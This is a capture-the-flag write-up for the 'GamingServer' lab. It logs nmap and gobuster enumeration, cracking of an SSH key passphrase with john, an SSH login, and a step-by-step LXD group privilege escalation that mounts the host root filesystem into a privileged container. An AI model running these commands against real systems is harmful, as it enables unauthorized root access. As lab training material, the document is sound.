




# GamingServer

## Nmap

```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ sudo nmap -sS -p- 10.10.187.1          
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 19:18 EDT
Nmap scan report for 10.10.187.1
Host is up (0.067s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 131.42 seconds

┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ sudo nmap -sSVC -p 22,80 10.10.187.1   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 19:23 EDT
Nmap scan report for 10.10.187.1
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds

```

## Website






### meme.jpg

```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ stegcracker meme.jpg dict.lst                                
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'meme.jpg' with wordlist 'dict.lst'..
Error: Failed to crack file, ran out of passwords.

┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ binwalk meme.jpg                    

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
                                                           
```


## Gobuster

```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ gobuster dir -u http://10.10.187.1 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.187.1
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.187.1/secret/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.187.1/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```


## Secret





## SSH Key


It requires a password.
```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ ssh-add gaming_id.rsa 
Enter passphrase for gaming_id.rsa: 
```


```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ python3 ssh2john.py gaming_id.rsa > ssh_key_john
                                                                                 
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ john ssh_key_john -w dict.lst 
Created directory: /home/kali/.john
Warning: only loading hashes of type "SSH", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (gaming_id.rsa)     
1g 0:00:00:00 DONE (2023-10-31 19:38) 20.00g/s 640.0p/s 640.0c/s 640.0C/s summer..maggie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                              
```

## ssh

```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ ssh -i gaming_id.rsa john@10.10.187.1
The authenticity of host '10.10.187.1 (10.10.187.1)' can't be established.
ED25519 key fingerprint is SHA256:3Kz4ZAujxMQpTzzS0yLL9dLKLGmA1HJDOLAQWfmcabo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.187.1' (ED25519) to the list of known hosts.
Enter passphrase for key 'gaming_id.rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 31 23:39:45 UTC 2023

  System load:  0.08              Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.187.1
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```

## PrivEsc

```
john@exploitable:/home$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/umount
/bin/su
/bin/fusermount
/bin/ping
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/newuidmap
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
```


```
john@exploitable:/$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

### LXD

LXD is a modern, secure and powerful system container and virtual machine manager.

lxd/lxc Group - Privilege escalation 

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. The vulnerability exists even with the LXD snap package. LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.
One of them is to use the LXD API to mount the host’s root filesystem into a container which is going to use in this post. This gives a low-privilege user root access to the host filesystem. 


We are part of the LXD Group so we can exploit this. 

Steps to use this:

1. Get an alpine image on the machine
  
  We can start by cloning this repo: https://github.com/saghul/lxd-alpine-builder
  
  The following commands will build the image on your attacking machine:

  ```
  cd lxd-alpine-builder
  sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
  sudo ./build-alpine -a i686
  ```
2. On running the above command, a tar.gz file is created in the working directory. We can now transfer this to the victim machine with a python3 server

  ```
  ┌──(kali㉿kali)-[~/Desktop/GamingServer/lxd-alpine-builder-master]
  └─$ ls
  alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  README.md
  alpine-v3.8-i686-20231101_1042.tar.gz     LICENSE

  ┌──(kali㉿kali)-[~/Desktop/GamingServer/lxd-alpine-builder-master]
  └─$ python3 -m http.server 6789
  Serving HTTP on 0.0.0.0 port 6789 (http://0.0.0.0:6789/) ...

  ```

  ```
  john@exploitable:~$ wget http://10.8.191.218:6789/alpine-v3.8-i686-20231101_1042.tar.gz
  --2023-11-01 14:44:19--  http://10.8.191.218:6789/alpine-v3.8-i686-20231101_1042.tar.gz
  Connecting to 10.8.191.218:6789... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 2674730 (2.6M) [application/gzip]
  Saving to: ‘alpine-v3.8-i686-20231101_1042.tar.gz’

  alpine-v3.8-i686-202 100%[===================>]   2.55M   820KB/s    in 3.2s    

  2023-11-01 14:44:22 (820 KB/s) - ‘alpine-v3.8-i686-20231101_1042.tar.gz’ saved [2674730/2674730]

  ```

3. import the image 

  ```
  john@exploitable:~$ lxc image import ./alpine-v3.8-i686-20231101_1042.tar.gz --alias myimage
  Image imported with fingerprint: 7092113e75f1c87292d0cba350da7f0c7e1057e88f07a847
  john@exploitable:~$ lxc image list
  +---------+--------------+--------+------------------------------+------+--------+-----------------------------+
  |  ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
  +---------+--------------+--------+------------------------------+------+--------+-----------------------------+
  | myimage | 7092113e75f1 | no     | alpine v3.8 (20231101_10:42) | i686 | 2.55MB | Nov 1, 2023 at 2:46pm (UTC) |
  +---------+--------------+--------+------------------------------+------+--------+-----------------------------+

  ```

4. run the image and mount the /root into the image

  ```
  john@exploitable:~$ lxc init myimage mycontainer -c security.privileged=true
  Creating mycontainer
  john@exploitable:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
  Device mydevice added to mycontainer
  ```

5. interact with the container

  ```
  john@exploitable:~$ lxc start mycontainer
  john@exploitable:~$ lxc exec mycontainer /bin/sh
  ~ # whoami
  root
  ~ #
  ```

6. Get the host file system

  LXD will mount our file system in the container
  We can find the host machine file system under /mnt/root.
  ```
  /mnt # ls
  root
  /mnt # cd root
  /mnt/root # ls
  bin             initrd.img      mnt             snap            var
  boot            initrd.img.old  opt             srv             vmlinuz
  cdrom           lib             proc            swap.img        vmlinuz.old
  dev             lib64           root            sys
  etc             lost+found      run             tmp
  home            media           sbin            usr
  /mnt/root # cd root
  /mnt/root/root # ls
  root.txt
  ```

